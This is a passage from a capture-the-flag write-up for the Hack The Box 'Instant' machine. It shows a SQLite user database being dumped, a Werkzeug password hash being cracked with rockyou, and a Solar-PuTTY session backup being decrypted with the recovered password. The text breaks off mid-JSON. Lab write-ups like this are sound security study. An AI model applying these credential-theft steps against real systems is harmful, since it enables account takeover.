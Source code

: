 After some navigation in the web application files i found a file in this path `/home/shirohige/projects/mywallet/Instant-Api/mywallet/app.py`
in the flask app i found this
```python
app.config['SECRET_KEY'] = os.getenv("SECRET_KEY")
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///instant.db'
app.config['SQLALCHEMY_TRACK_MODIFICATION'] = True
```
There's a db file so let's get it

```bash
shirohige@instant:~/projects/mywallet/Instant-Api/mywallet$ find -name *.db 2>/dev/null
./instance/instant.db
```

Sending it to my machine for getting the candy
open it using `sqlite3 instant.db` then
```bash
sqlite> .tables
wallet_transactions  wallet_users         wallet_wallets     
sqlite> select * from wallet_users
   ...> ;
1|instantAdmin|admin@instant.htb|f0eca6e5-783a-471d-9d8f-0162cbc900db|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978|2024-07-23 00:20:52.529887|87348|Admin|active
2|shirohige|shirohige@instant.htb|458715c9-b15e-467b-8a3d-97bc3fcf3c11|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed|2024-08-08 20:57:47.909667|42845|instantian|active
```
We have 2 users and we got the hashes of them now.
After searching about the hash i found that it's called `Werkzeug password` and this <a href="https://github.com/AnataarXVI/Werkzeug-Cracker">tool</a> is the cracker of its hash.

One of the hashed got cracked.
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/instant/Werkzeug-Cracker]
└─$ python3 werkzeug_cracker.py -p ../hash.txt -w /usr/share/wordlists/rockyou.txt 
Countdown |                                | 105/14445389

Password found: estrella
```

This password doesn't work for root login or any other thing, so Let's keep it and keep moving.
After using `linpeas` i found interesting thing => we have `-rw-r--r-- 1 shirohige shirohige 1100 Sep 30 11:38 /opt/backups/Solar-PuTTY/sessions-backup.dat` this backup file.

I couldn't understand the content of that file, but after searching i found that it's solar-Putty session and this format is the encryption of that file and we will use this <a href="https://github.com/VoidSec/SolarPuttyDecrypt">tool</a> for decryption

In the usage of the tool we can do `SolarPuttyDecrypt.exe sessions-backup.dat ""` and empty quotes for no password passing, but it didn't work, so let's try the password we got before `SolarPuttyDecrypt.exe sessions-backup.dat "estrella"` and we got this output
```json
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
```